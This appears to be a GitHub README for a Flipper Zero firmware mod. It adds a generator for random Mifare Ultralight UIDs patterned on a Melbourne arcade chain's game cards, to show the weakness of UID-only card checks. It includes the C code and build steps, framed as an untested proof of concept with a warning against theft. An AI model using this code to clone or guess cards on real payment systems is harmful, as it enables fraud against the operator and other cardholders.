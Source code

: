 # flipper_NFC_gamecard_hack

In Melbourne AU we have a popular arcade chain that uses the EMBED card system with Mifare ULTRALIGHT cards for game cards. I did some checks with the small pool of cards I have and found the last 2 octets are not changing from 0x00.

This is a modded file for the built in flipper NFC app that adds the option to create a random game card based off my findings. In theory it should work but who knows. I dont think it checks data stored on the card.

DO NOT USE THIS TO STEAL OTHER PEOPLES MONEY. THIS IS A PROOF OF CONCEPT TO SHOW IN INSECURITY OF ONLY USING THE UID IN A CARD BASED SYSTEM. I HAVE NOT TESTED THIS AT ALL. THE CHANCE OF YOU FINDING A CARD THAT HAS MONEY, IS A STAFF, A TECH OR A VALID CARD IS SUPER LOW. YOU WILL PROBABLY GET SPOTTED BY A STAFF MEMBER IF YOU ARE TRYING THIS. IT IS NOT MY RESPONSIBILITY IF YOU GET CAUGHT, FINED, BANNED, JAILED OR THE EARTH OPENS UP AND SWALLOWS YOU WHOLE.


Instructions:
Copy this file over the top of the original file and build the firmware. tested with unleashed 018

Do not copy to the flipper. nothing will change.









My changes to the original file are below.

Added: 

```
static void nfc_generate_mf_tz_uid(uint8_t* uid) {
    uid[0] = NXP_MANUFACTURER_ID;
    furi_hal_random_fill_buf(&uid[1], 6);
    // Timezone use 00 on last 2 octets with the sample size ive tested. 
    uid[5] = 0x00;
    uid[6] = 0x00;
}
```

```
static void nfc_generate_mf_tz_common(NfcDeviceData* data) {
    data->nfc_data.type = FuriHalNfcTypeA;
    data->nfc_data.interface = FuriHalNfcInterfaceRf;
    data->nfc_data.uid_len = 7;
    nfc_generate_mf_tz_uid(data->nfc_data.uid);
    data->nfc_data.atqa[0] = 0x44;
    data->nfc_data.atqa[1] = 0x00;
    data->nfc_data.sak = 0x00;
    data->protocol = NfcDeviceProtocolMifareUl;
}
```

```
static void nfc_generate_mf_tz_orig(NfcDeviceData* data) {
    nfc_generate_common_start(data);
    nfc_generate_mf_tz_common(data);

    MfUltralightData* mful = &data->mf_ul_data;
    mful->type = MfUltralightTypeUnknown;
    mful->data_size = 16 * 4;
    mful->data_read = mful->data_size;
    nfc_generate_mf_ul_copy_uid_with_bcc(data);
    // TODO: what's internal byte on page 2?
    memset(&mful->data[4 * 4], 0xFF, 4);
}
```

```
static const NfcGenerator mf_tz_generator = {
    .name = "Mifare (Timezone)",
    .generator_func = nfc_generate_mf_tz_orig,
    .next_scene = NfcSceneMfUltralightMenu,
};
```

And added ``` &mf_tz_generator, ``` to ``` const NfcGenerator* const nfc_generators[] = { ```
